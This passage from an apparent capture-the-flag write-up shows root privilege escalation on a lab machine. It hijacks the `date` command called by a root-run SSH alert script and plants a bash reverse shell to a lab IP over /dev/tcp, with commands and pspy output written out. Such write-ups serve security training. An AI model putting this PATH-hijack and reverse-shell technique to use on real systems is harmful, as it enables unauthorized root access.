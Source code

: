 Taking a look at the script we see that it's taking note of when users login.  

```bash
svc_acc@late:/usr/local/sbin$ cat ssh-alert.sh
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi


svc_acc@late:/usr/local/sbin$
```

Using `pspy` we can see that the script is getting ran as a root user.  I might have been able to infer that given the $PAM usage but it never hurts to check.

```bash
2022/06/22 14:41:21 CMD: UID=0    PID=2059   | sshd: svc_acc [priv]
2022/06/22 14:41:21 CMD: UID=0    PID=2060   | /bin/bash /usr/local/sbin/ssh-alert.sh
```

We can now take advantage of the fact that we can execute a script (`ssh-alert.sh`) as root that takes some variables that we can control.  The next step is to create that variable.

## Making a custom `date` command

One of the commands that `ssh-alert.sh` uses is the `date` command.  Let's make a new `date` command.

```bash
svc_acc@late:/usr/local/sbin$ which date
/bin/date
svc_acc@late:/usr/local/sbin$ echo "/bin/bash -i >& /dev/tcp/10.10.14.11/2346 0>&1" > date
svc_acc@late:/usr/local/sbin$ chmod +x date
svc_acc@late:/usr/local/sbin$ which date
/usr/local/sbin/date
```

Setup the netcat listener and exit out of the original ssh session.  This will trigger our reverse shell to execute when `ssh-alert.sh` calls `date`.
